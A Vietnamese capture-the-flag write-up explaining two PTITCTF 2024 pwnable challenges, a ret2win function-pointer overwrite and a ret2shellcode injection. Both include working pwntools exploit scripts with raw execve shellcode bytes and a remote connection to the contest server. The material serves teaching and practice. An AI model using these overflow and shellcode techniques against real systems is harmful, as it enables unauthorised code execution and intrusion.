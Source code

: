 # pwn1
## Kịch bản
- Ta phải ghi đè lên biến `a` để control hàm `ptr_func`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-1.png)
- Chúng ta thấy có hàm `win`, hàm này thực hiện chức năng lấy shell của server để thực hiện chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-2.png)

-> Ghi đè lên biến `a` để control hàm `ptr_func`, sau đó ghi đè lên địa chỉ hàm `hello` để trỏ về hàm `win`
## Solution
- Check bảo mật của file, ta thấy có dòng `No PIE` tức là địa chỉ giữ nguyên không bị thay đổi -> Có thể tính toán offset 1 cách dễ dàng
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-3.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-4.png)


`0x004040F0 - 0x00404060 = 0x90`
-> Ghi đè `144 - 8 (0xDEADBEEF) = 136` bytes + 8 bytes của `0xDEADBEEF`
- Thay thế địa chỉ hàm `ptr_func` để trỏ đến địa chỉ hàm `win`
- Lấy địa chỉ hàm `win` để lấy shell của chương trình
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-6.png)
- Viết code lấy shell chương trình
```Python
from pwn import *

p = process("./pwn1")

#Ghi đè
payload = b"a"*136
payload += p64(0xDEADBEEF)
win = 0x000000000040130c #dia chi ham win
payload += p64(win)

p.sendlineafter(b"Enter your name:", payload)
p.interactive()
```
- Lúc này chúng ta đã lấy được shell của chương trình, tức là đã ghi đè thành công và control được địa chỉ của hàm `ptr_func`
- Sử dụng lệnh `cat flag.txt` ta thu được `PTITCTF{fake_flag}`
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-7.png)
- Tiến hành remote lên server
```Python
from pwn import *

#p = process("./pwn1")
p = remote("14.225.255.41", 13331)

payload = b"a"*136
payload += p64(0xDEADBEEF) #chuyen chuoi hex sang 8 bytes

win = 0x000000000040130c
payload += p64(win)

p.sendlineafter(b"Enter your name: ", payload)
p.interactive()
```
## Flag
```PTITCTF{fl0w_fl0w_0v3rfl0w_g3t_w1n}```
## Kết luận
- Đây là dạng bài `ret2win` khá phổ biến trong mảng `pwnable`
# pwn2
## Solution
- Ta thấy có lệnh `mmap` được dùng để tạo một vùng nhớ ảo với kích thước 50 bytes và cấp quyền đọc, ghi, thực thi cho vùng nhớ đó mà không ánh xạ tới file nào

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-8.png)
- Ghi đè biến `buffer` lên biến `a`

![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-9.png)

`0x00404094 - 0x00404060 = 0x34`

-> Vì biến `buffer` đứng trước biến `a` nên chúng ta phải ghi đè 52 bytes + 8 bytes của `0xCAFEBABE`
- Dùng lệnh `file` để kiểm tra tập tin
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-10.png)
- Vì bài này không có hàm `win` nên chúng ta phải chèn `shellcode`. Lệnh `mmap` có thể sử dụng `ret2shellcode` để yêu cầu server gửi flag. Ta có thể sử dụng file [Linux x86-64 shellcode](https://shell-storm.org/shellcode/files/shellcode-806.html)
- Ta có payload `\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05` để tiến hành `ret2shellcode`. Viết code để yêu cầu server gửi flag
```Python
from pwn import *

# p = remote("14.225.255.41", 13333)
p = process("./pwn2")
p.recvuntil("Enter your name: ")
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'

payload = shellcode
p.sendline(payload)
payload = b"a"*52 + p32(0xCAFEBABE)

p.sendline(payload)
p.interactive()
```
![alt text](https://github.com/nhh9905/CTF/blob/main/PTITCTF%202024/V%C3%B2ng%20lo%E1%BA%A1i/Pwnable/image-11.png)
- Ta đã lấy được shellcode. Remote tới server để lấy flag giống bài `pwn1`
## Flag
```PTITCTF{sk3llc0d3_js_byt3c0d3?}```
## Kết luận
- Đây là dạng bài `ret2shellcode`